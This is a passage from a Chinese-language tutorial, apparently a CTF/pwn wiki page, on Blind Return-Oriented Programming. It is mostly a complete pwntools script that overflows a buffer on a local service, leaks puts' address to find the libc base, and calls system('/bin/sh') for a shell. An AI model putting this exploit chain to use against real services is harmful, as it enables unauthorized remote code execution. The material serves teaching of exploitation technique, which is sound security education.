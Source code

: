 这说明，puts@got的地址为0x601018。

#### 程序利用

```python
##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)
puts_got = 0x601018

sh = remote('127.0.0.1', 9999)
sh.recvuntil('password?\n')
payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(
    stop_gadget)
sh.sendline(payload)
data = sh.recvuntil('\nWelCome', drop=True)
puts_addr = u64(data.ljust(8, '\x00'))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
    system_addr) + p64(stop_gadget)
sh.sendline(payload)
sh.interactive()
```

**参考阅读**

- http://ytliu.info/blog/2014/09/28/blind-return-oriented-programming-brop-attack-gong-ji-yuan-li/
- http://bobao.360.cn/learning/detail/3694.html
- http://o0xmuhe.me/2017/01/22/Have-fun-with-Blind-ROP/